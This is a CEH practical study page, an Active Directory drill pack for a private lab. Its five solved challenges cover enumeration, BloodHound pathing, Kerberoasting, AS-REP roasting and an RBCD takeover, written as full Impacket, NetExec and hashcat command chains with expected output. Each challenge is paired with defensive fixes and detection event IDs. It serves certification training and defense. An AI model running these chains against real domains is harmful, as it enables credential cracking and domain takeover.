

repository: morandeirachema/CyberCerts · page: certs/ceh/practical/drills/05-active-directory/index.html · generator: mkdocs

# Drill Pack 05 — Active Directory

> Deep, Practical-style AD pack: **10 challenges** from a single low-priv foothold to full domain dominance. Each has a **full solution** — commands, expected output, the **exact answer**, the PAM control that breaks it, and a faster route. Solve under a timer; expand the solution only when done or stuck.
>
> **Prereq:** the AD lab from [`../../labs/ansible/`](../../labs/ansible/README.md) running — DC/ADCS `dc01` `192.168.56.30` (`ceh.lab`), member `ws01` `192.168.56.31`. **Foothold:** `jdoe` / `Passw0rd!` (assumed-breach). **Lab only** — these are real domain-takeover techniques.
>
> Recipes: [`../challenge-playbooks.md`](../challenge-playbooks.md) · full chain: [`../../labs/capstone.md`](../../labs/capstone.md) · defender view: [identity-attack-paths](../../defender-pam/identity-attack-paths.md).

> **Before any Kerberos/Impacket command, sync your clock to the DC** (`sudo ntpdate 192.168.56.30`) and point DNS at it. Clock skew > 5 min → `KRB_AP_ERR_SKEW`; a raw IP where an FQDN is required → `KDC_ERR_S_PRINCIPAL_UNKNOWN`. Challenge 10 drills this.

---

### 1 — Map the domain ⏱ 8 min
**Q:** Authenticated as `jdoe`, enumerate `ceh.lab` and identify the Kerberoastable service account. What is the exact **SPN** registered to it?
<details><summary>Solution</summary>

```bash
nxc smb 192.168.56.30 -u jdoe -p 'Passw0rd!' --users --groups
# List accounts that carry an SPN (the Kerberoastable ones):
impacket-GetUserSPNs ceh.lab/jdoe:'Passw0rd!' -dc-ip 192.168.56.30
# Collect the whole graph for BloodHound (used in challenge 2):
bloodhound-python -u jdoe -p 'Passw0rd!' -d ceh.lab -ns 192.168.56.30 -c all --zip
```
**You should see:** a user list including `svc-sql`, and a `ServicePrincipalName` column pairing it with a SQL SPN.
**Answer:** service account `svc-sql`, SPN `MSSQLSvc/dc01.ceh.lab:1433`.
🛡 **Fix:** anyone authenticated can read most of AD by design — you can't block recon, so deny what it finds with least-privilege ACLs and flag mass-LDAP / SharpHound collection with Defender for Identity / UEBA.
⚡ **faster:** `nxc ldap 192.168.56.30 -u jdoe -p 'Passw0rd!' --bloodhound -c all --dns-server 192.168.56.30` collects and enumerates in one shot.
</details>

### 2 — Shortest path to Domain Admin (BloodHound) ⏱ 8 min
**Q:** Load the collection, mark `jdoe` as Owned, and run the shortest-path query to Domain Admins. What is the **first edge** on the path and its **target object**?
<details><summary>Solution</summary>

```bash
sudo neo4j start                 # graph DB
bloodhound                       # GUI — drag the .zip onto the window
# Right-click jdoe → Mark as Owned. Query:
#   "Shortest Paths to Domain Admins from Owned Principals"
```
**You should see:** an edge from `JDOE@CEH.LAB` straight onto the computer `WS01`, plus a second route through the vulnerable cert template (`ADCSESC1` edge → the CA → Domain Admins).
**Answer:** first edge `GenericWrite` → target `WS01` (the write that enables the RBCD takeover in challenge 5). The ADCS ESC1 route (challenge 6) is the alternative shortest path.
🛡 **Fix:** the whole path exists because a low-priv user holds a write on a computer object — audit and remove `GenericWrite`/`GenericAll` from tier-2 users, and tier admin so a foothold can't reach Tier 0.
⚡ **faster:** in BloodHound CE run the built-in *Dangerous Privileges* / *Owned → high value* pathfinding instead of hand-tracing edges.
</details>

### 3 — Kerberoast svc-sql ⏱ 10 min
**Q:** Recover the **plaintext password** of `svc-sql`.
<details><summary>Solution</summary>

```bash
impacket-GetUserSPNs ceh.lab/jdoe:'Passw0rd!' -dc-ip 192.168.56.30 -request -outputfile kerb.txt
# You should see: a $krb5tgs$23$*svc-sql*... blob written to kerb.txt
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt --force
hashcat -m 13100 kerb.txt --show
```
**You should see:** hashcat reports `Cracked`, and `--show` prints the blob followed by `:Summer2024!`.
**Answer:** `Summer2024!`
🛡 **Fix:** convert SPN accounts to a **gMSA** (AD auto-rotates a 120+ char password) or CPM-rotated long random secret, AES-only — re-roasting a gMSA gives a ticket you cannot dictionary-crack. Detection: `4769` TGS requests using RC4 (`0x17`).
⚡ **faster:** `nxc ldap 192.168.56.30 -u jdoe -p 'Passw0rd!' --kerberoasting kerb.txt` requests every SPN ticket without Impacket.
</details>

### 4 — AS-REP roast ⏱ 8 min
**Q:** One account has *"Kerberos pre-authentication not required"* set. **Which account**, and what is its **password**?
<details><summary>Solution</summary>

```bash
# No password needed — pre-auth is off (-no-pass). Feed it the enumerated user list:
impacket-GetNPUsers ceh.lab/ -usersfile users.txt -no-pass -dc-ip 192.168.56.30 \
  -format hashcat -outputfile asrep.txt
# You should see: a $krb5asrep$23$helpdesk@CEH.LAB:... blob
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt --force
hashcat -m 18200 asrep.txt --show
```
**You should see:** hashcat cracks the `-m 18200` blob to `:Welcome1`.
**Answer:** account `helpdesk`, password `Welcome1`.
🛡 **Fix:** require pre-authentication on **every** account (remove `DONT_REQUIRE_PREAUTH`) and vault/rotate any legacy account's password. Detection: `4768` with pre-auth type `0`.
⚡ **faster:** `nxc ldap 192.168.56.30 -u jdoe -p 'Passw0rd!' --asreproast asrep.txt` finds and dumps no-preauth accounts directly.
</details>

### 5 — RBCD: shell as Administrator on ws01 ⏱ 14 min
**Q:** Abuse `jdoe`'s `GenericWrite` on `ws01` (Resource-Based Constrained Delegation) to get a shell as Administrator on that host. What is the **hostname** the shell reports?
<details><summary>Solution</summary>

```bash
sudo ntpdate 192.168.56.30      # Kerberos next — sync the clock first
# 1. Add a computer account we control (normal users may add up to 10):
impacket-addcomputer ceh.lab/jdoe:'Passw0rd!' -computer-name 'ATTACK$' \
  -computer-pass 'AttackPass123!' -dc-ip 192.168.56.30
# 2. Use the GenericWrite to let ATTACK$ act on behalf of others toward ws01:
impacket-rbcd ceh.lab/jdoe:'Passw0rd!' -delegate-to 'ws01$' -delegate-from 'ATTACK$' \
  -action write -dc-ip 192.168.56.30
# You should see: "Delegation rights modified successfully!"
# 3. Mint a service ticket AS Administrator for ws01's file service:
impacket-getST ceh.lab/'ATTACK$':'AttackPass123!' -spn 'cifs/ws01.ceh.lab' \
  -impersonate Administrator -dc-ip 192.168.56.30
export KRB5CCNAME='Administrator@cifs_ws01.ceh.lab@CEH.LAB.ccache'
impacket-psexec -k -no-pass ceh.lab/Administrator@ws01.ceh.lab
hostname
```
**You should see:** a SYSTEM shell (`nt authority\system`); `hostname` prints the box name.
**Answer:** `WS01`
🛡 **Fix:** low-priv users must not hold `GenericWrite`/`GenericAll` on computer objects — audit and remove them, and tier admin. Detection: `5136` modifying `msDS-AllowedToActOnBehalfOfOtherIdentity`.
⚡ **faster:** `impacket-getST -spn cifs/ws01.ceh.lab -impersonate Administrator` accepts the machine hash too — dump `ATTACK$`'s hash once and skip retyping the password.
</details>
